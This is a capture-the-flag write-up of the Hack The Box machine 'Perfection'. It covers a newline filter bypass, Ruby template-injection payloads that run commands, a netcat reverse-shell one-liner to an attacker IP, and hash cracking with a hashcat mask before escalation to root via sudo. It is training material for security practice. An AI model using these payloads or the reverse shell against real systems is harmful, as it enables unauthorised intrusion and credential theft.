## ▫️Information

-  **Name** : Perfection
-  **Author** : [TheHated1](https://app.hackthebox.com/users/1412009)
-  **Difficulty** : Easy
-  **OS** : Linux


## ▫️Enumeration


Let's start with a port scan. We'll use **RustScan** with this options : 
```bash
rustscan -a $IP -r 1-65535 -- -A -oN scan.txt
```

The output : 
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack ttl 63 nginx
|_http-title: Weighted Grade Calculator
| http-methods: 
|_  Supported Methods: GET HEAD
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (99%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), Linux 5.4 (94%), Linux 5.0 - 5.4 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.1 (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports : **22** and **80**.

### Web enumeration

The ssh service doesn't seem vulnerable. Go to the website, navigate and look at the **Weighted Grade Calculator**.
Complete the form like this :



And the output is :



As we can see, the string `Maths` is returned, same for `20`.
Maybe, we could inject some malicious code as **XSS** or **SQLi**.
Let's try with **BurpSuite** :



We have the following response :



I tried all type of char like `&;{}-"=`. Nothing.
We need to find a way to bypass this protection.

### Bypass

Before search bypass tricks, it is important to know which technology is used by the web server.
Thanks to Wappalyzer, we know that is *Ruby*.



Now, go on *Google* and search for bypass tricks about *Ruby*.
We found a useful tricks : `0%A`(backspace url-encoded).

Send the request with **BurpSuite** : 



It works ! So, maybe the restriction can be broke here.
Inject the following code to see if we can use special chars :

```bash
category1=Maths%0A%3C%21%2D%2D%22%27&grade1=20&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

Let's check : 


The injection works and our code is interpreted (html comment).

## ▫️Exploitation

We are able to inject malicious code.
A vulnerability can be exploited here. It is called `Server Side Template Injection`(SSTI).

Thanks to [PayloadAllTheThings CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby), we can compromise the web server.

Testing with a simple payload to see if it is vulnerable : 
``<%= 7 * 7 %>`` 


The output show us ``49`` , so the target is *vulnerable*.

Trying the code execution payload : 
``<%= `ls /` %>``



We can execute arbitary commands.

To get a reverse shell, we'll use :
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER_IP $PORT >/tmp/f
```

Setup a listener : 



Upgrade your shell, go to the home directory, and get the first flag !


## ▫️Privilege Escalation

We are logged as **Susan**. She is in the sudo group.
Check if we can execute ``sudo -l``. We need a password.

In home directory, there is a folder named ``Migration`` with a SQL database file.
Transfer the file to our machine and read the database with **SQLite3**.

```bash
sqlite> SELECT * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
sqlite>
```

We can use **JohnTheRipper** or **HashCat** to crack one of this hash but it will be useless.

### Enumeration

For this part, we can enumerate manually *setuid* files, *crontabs*,...
Or you can use automated tools like **LinPEAS**.

Go on ``/var/mail``. There is a mail for *susan* : 

```txt
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

It is interesting. We know a part of the password.
If **Susan** use this format for her password, we should be able to crack it.

### Exploitation

The *susan*'s password is : 
``susan_nasus_{random1-1000000000}``

We'll use **Hashcat** with the following rule :

``susan_nasus_?d?d?d?d?d?d?d?d?d``

The goal here is to add random numbers between 0 and 9, nine times.

Use the following syntax : 
``` 
hashcat -a 3 -m 1400 hash custom.rule
```
 - `-a` : Attack mode (BruteForce)
 - `-m`: Hash type (SHA-256, thanks to **haiti**)
 - `custom.rule`: File containing the rule

Now, we need to wait...

```bash
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Tue Mar  5 19:29:09 2024 (1 min, 7 secs)
Time.Estimated...: Tue Mar  5 19:30:16 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4871.4 kH/s (1.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324562944/1000000000 (32.46%)
Rejected.........: 0/324562944 (0.00%)
Restore.Point....: 324550656/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_354540610 -> susan_nasus_927935210
Hardware.Mon.#1..: Temp: 65c Util: 61%

Started: Tue Mar  5 19:28:40 2024
Stopped: Tue Mar  5 19:30:17 2024
```

We cracked the password ! 


Check sudo permissions : 
```
User susan may run the following commands on perfection:
   (ALL : ALL) ALL
```

Simply use ``sudo -i`` to spawn a root shell.



And we obtain the root flag !

## ▫️Conclusion

Nice box !